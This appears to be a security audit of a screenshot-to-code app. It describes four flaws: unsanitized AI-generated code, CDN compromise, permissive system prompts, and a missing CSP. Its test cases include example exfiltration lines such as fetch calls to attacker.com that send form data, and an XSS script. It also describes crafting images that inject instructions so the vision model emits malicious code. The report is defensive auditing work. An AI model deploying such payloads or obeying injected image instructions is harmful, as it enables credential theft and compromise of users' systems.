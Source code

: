 ### Combined Vulnerability List

#### 1. **Unsanitized AI-Generated Code Output**
**Description**:
1. The backend receives a malicious image input from an attacker, which is intended to trick the AI into generating harmful code (e.g., JavaScript with RCE/XSS payloads).
2. The system processes the image via the FastAPI endpoint and sends it to the AI (e.g., GPT-4 Vision or Claude Sonnet 3.7) with minimal constraints.
3. The AI generates code (e.g., HTML with embedded scripts) that includes dangerous logic such as `eval()`, `fetch()` calls to attacker-controlled endpoints, or inline JavaScript with malicious functionality.
4. The backend’s `extract_html_content` and `generate_images` functions process the AI response but do **not** perform any validation or sanitization of the generated code.
5. The raw, unfiltered code is returned to the user via the WebSocket endpoint `/generate-code`, who may then execute it in their environment.

**Impact**:
A malicious user can craft an image that instructs the AI to generate harmful code (e.g., JavaScript for credential theft, RCE, or XSS). When the user implements the code, it executes in their browser or server, leading to unauthorized access, data exposure, or complete system compromise.

**Vulnerability Rank**: Critical

**Currently Implemented Mitigations**:
- None. The code does not include any validation, sanitization, or static analysis of the AI-generated output.

**Missing Mitigations**:
- Lack of input validation on the AI’s generated code.
- No checks for dangerous keywords (e.g., `eval`, `fetch`, `exec`, `<script>`) or patterns (e.g., event listeners with malicious payloads).
- No sandboxing or dynamic analysis of the generated code before delivery to the user.
- No rate limiting on API endpoints to prevent abuse.
- Sanitize the AI-generated code to remove executable scripts (e.g., `<script>` tags).
- Implement strict Content Security Policy (CSP) headers to block inline scripts.
- Validate and restrict the output code to safe frameworks (e.g., disallow `eval`, `innerHTML`, etc.).

**Preconditions**:
- The attacker must have access to the hosted version of the app or a local instance (via Docker or manual setup).
- The attacker must craft an image (or video) that visually mimics UI components requiring malicious JavaScript.

**Source Code Analysis**:
- In `routes/generate_code.py`, the AI-generated code is processed via `extract_html_content` (which trims only non-HTML parts) and then returned directly to the user:
  ```python
  completions = [extract_html_content(completion) for completion in completions]
  ...
  await send_message("setCode", updated_html, index)
  ```
- The system prompts (e.g., `HTML_TAILWIND_SYSTEM_PROMPT`, `REACT_TAILWIND_SYSTEM_PROMPT`) explicitly allow usage of JavaScript for interactivity, leaving the door open for malicious scripts.
  ```python
  "- Make sure to always get the layout right... using JS.
  - Use jQuery for interactions..."
  ```
- Mock responses in `mock_llm.py` include JavaScript (e.g., jQuery code in `MORTGAGE_CALCULATOR_VIDEO_PROMPT_MOCK`), confirming that the backend expects and delivers code with scripts.

**Security Test Case**:
1. Upload an image (or video) to the hosted instance that visually represents a UI element with a malicious JavaScript trigger (e.g., a button with `onclick="fetch('attacker.com/stolen-data')"`).
2. The AI generates code that includes the `onclick` handler with the attacker’s payload.
3. Download the generated code and verify the presence of the malicious script.
4. Deploy the code in a local environment and trigger the malicious JavaScript to observe data exfiltration or RCE.

---

#### 2. **Exposure to Third-Party CDN Compromise**
**Description**:
1. The AI is instructed to include third-party libraries (e.g., jQuery, Bootstrap, React scripts) via hardcoded CDN URLs.
2. An attacker compromises one of these CDNs (e.g., cdn.tailwindcss.com or cdnjs.cloudflare.com) to inject malicious code into the referenced files.
3. The generated code uses these compromised CDN links, causing the malicious scripts to execute in the user’s environment when the code is deployed.

**Impact**:
If a CDN is compromised, users could unknowingly include remote JavaScript that steals credentials, executes arbitrary code, or manipulates the app’s behavior.

**Vulnerability Rank**: High

**Currently Implemented Mitigations**:
- None. The backend uses fixed CDN URLs without any integrity checks.

**Missing Mitigations**:
- Lack of subresource integrity (SRI) hashes for third-party scripts.
- No code to validate the integrity of CDN-hosted libraries before inclusion.

**Preconditions**:
- The attacker must have control over or ability to compromise a third-party CDN used by the system.
- The user must deploy the generated code that references the compromised CDN.

**Source Code Analysis**:
- All system prompts (e.g., `HTML_TAILWIND_SYSTEM_PROMPT`, `REACT_TAILWIND_SYSTEM_PROMPT`) explicitly require third-party CDN URLs for libraries:
  ```python
  "- Use this script to include Tailwind: <script src='https://cdn.tailwindcss.com'></script>"
  ```
- The mock code in `mock_llm.py` includes CDN references such as `https://code.jquery.com/jquery-3.7.1.min.js`, which are vulnerable to CDN compromise.

**Security Test Case**:
1. Compromise a third-party CDN (e.g., host a malicious script on a temporarily hijacked domain like cdn.tailwindcss.com).
2. Generate code via the app that uses the CDN (e.g., request HTML with Tailwind).
3. Deploy the generated code and confirm that the malicious script from the compromised CDN executes.

---

#### 3. **Overly Permissive AI Prompts Enable Malicious Output**
**Description**:
1. The system prompts for AI models (e.g., `HTML_TAILWIND_SYSTEM_PROMPT`) explicitly require the AI to "generate the full code" without mentioning security restrictions.
2. An attacker crafts an image that visually includes code comments or UI elements that suggest malicious JavaScript logic (e.g., a button labeled "Phishing Login").
3. The AI follows the prompt to produce fully functional code, including the attacker’s malicious logic.

**Impact**:
The AI’s lack of security constraints in prompts allows generation of harmful code patterns (e.g., credential phishing pages).

**Vulnerability Rank**: Critical

**Currently Implemented Mitigations**:
- None. The system prompts focus on UI accuracy and code completeness but omit any security guidelines.

**Missing Mitigations**:
- No prompt engineering to explicitly disallow dangerous JavaScript patterns.
- No validation that the AI adheres to security boundaries (e.g., disallow event listeners with `eval()` or external script injection).

**Preconditions**:
- The attacker must trick the AI into generating code with malicious behaviors.

**Source Code Analysis**:
- The system prompts in `prompts/screenshot_system_prompts.py` and `prompts/claude_prompts.py` instruct the AI to prioritize exact replication but lack safeguards:
  ```python
  "- Do not add comments... but WRITE THE FULL CODE."
  "- Make sure the app looks *exactly* like the screenshot."
  ```

**Security Test Case**:
1. Provide an image of a login form with a "Forget Password" button.
2. In the image, include a hidden or visual cue that the button triggers `fetch('attacker.com', {method: 'POST', data: form_data})`.
3. Generate code via the app and confirm that the JavaScript (`fetch` call) is included in the output.

---

#### 4. **Missing Content Security Policy (CSP)**
**Description**:
The frontend does not enforce a CSP header to restrict script sources, allowing inline scripts from the AI-generated code to execute.

**Impact**:
XSS attacks via malicious scripts in generated code.

**Vulnerability Rank**: High

**Currently Implemented Mitigations**:
- None.

**Missing Mitigations**:
- Add a strict CSP header to the backend responses:
  ```python
  response.headers["Content-Security-Policy"] = "script-src 'none'"
  ```

**Preconditions**: None.

**Source Code Analysis**:
- The backend (`main.py`) does not set any CSP headers.

**Security Test Case**:
1. Inject a `<script>alert('XSS')</script>` via crafted image.
2. Verify the script executes due to missing CSP.
